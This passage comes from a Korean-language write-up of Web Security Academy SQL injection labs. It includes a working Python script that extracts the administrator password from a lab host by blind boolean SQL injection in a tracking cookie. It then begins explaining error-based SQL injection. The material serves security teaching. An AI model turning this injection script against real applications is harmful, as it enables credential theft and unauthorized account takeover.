 ```python
import requests

url='https://0a46006704e89589879a489c00f4006f.web-security-academy.net/'
password = ""

for i in range(20):
    low = 32
    high = 126

    while low+1 < high:
        mid = (low + high) // 2
        headers = {
            "session":"jffFsB8D5nZUH4r1wUjKQqiprYScqqvV",
            "Cookie": f"TrackingId=wW7o8TT4H4qCkL3i' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {i+1}, 1) < '{chr(mid)}"
        }
        response = requests.get(url, headers=headers)

        if "Welcome back!" in response.text:
            high = mid
        else:
            low = mid

    password += chr(low)
    print(f"Temp Password: {password}")

print(f"Password: {password}")
```

위의 코드를 실행하면 한 자씩 이진 탐색하며 패스워드를 알아낼 수 있다.

<br>

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/9ccfc2bd-7211-4d08-96da-79e968542d31)

알아낸 패스워드로 `administrator` 계정에 로그인하면 문제를 해결할 수 있다.

<br><br>

# #Error-based SQL injection

Error-based SQL 인젝션은 블라인드 컨텍스트에서도 에러 메시지를 사용하여 데이터베이스로부터 민감한 데이터를 추출하거나 추론할 수 있는 경우를 나타낸다. 취약점의 가능성은 데이터베이스의 구성 사항과 발생시킬 수 있는 에러의 종류에 달려있다.

- 애플리케이션이 boolean 표현식의 결과에 따른 특정한 에러 응답을 반환하도록 유도할 수도 있다. 이전 섹션에서 살펴본 조건부 응답과 동일한 방식으로 이를 활용할 수 있다.
- 쿼리에 의해 반환되는 데이터를 출력하는 에러 메시지를 발생시킬 수도 있다. 이는 블라인드 SQL 인젝션 취약점을 눈에 보이는 취약점으로 효과적으로 전환한다.

<br>

## Exploiting blind SQL injection by triggering conditional errors
